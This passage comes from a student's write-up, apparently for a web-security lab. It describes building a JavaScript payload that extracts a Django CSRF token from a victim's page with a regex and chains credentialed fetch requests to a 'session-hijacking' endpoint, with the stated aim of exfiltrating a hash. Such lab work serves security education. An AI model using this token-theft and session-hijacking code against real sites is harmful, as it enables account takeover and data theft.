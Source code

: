 ### Attempt 2: Regular Expression (Success!)

```javascript
const csrfMatch = html.match(/name="csrfmiddlewaretoken"\s+value="([^"]+)"/);
if (!csrfMatch) return;
const csrfToken = csrfMatch[1];
```

**Why this works:**

- Regex pattern matches the CSRF token input field
- Captures the token value in a capture group
- Works regardless of DOM structure
- Simple and reliable

### Testing the Regex

I tested the regex pattern against sample HTML:

```javascript
const testHTML = `
<form>
    <input type="hidden" name="csrfmiddlewaretoken" value="abc123xyz789">
    <input type="text" name="username">
</form>
`;

const match = testHTML.match(/name="csrfmiddlewaretoken"\s+value="([^"]+)"/);
console.log(match[1]); // "abc123xyz789"
```

**Result:** ✓ Token extracted successfully

## Stuck Point #3: Chaining Asynchronous Requests

I needed to ensure the requests happened in the correct order:

1. Fetch console page
2. Extract CSRF token
3. Use token to fetch session hijacking endpoint
4. Extract hash from response
5. Exfiltrate hash

### Failed Attempt: Race Condition

```javascript
let csrfToken;

// First request
fetch("/console", { credentials: "include" })
  .then((res) => res.text())
  .then((html) => {
    csrfToken = html.match(/.../)[1];
  });

// Second request - PROBLEM: This executes immediately!
fetch("/session-hijacking/gguruvelli3", {
  method: "POST",
  headers: { "X-CSRFToken": csrfToken }, // undefined!
  credentials: "include",
});
```
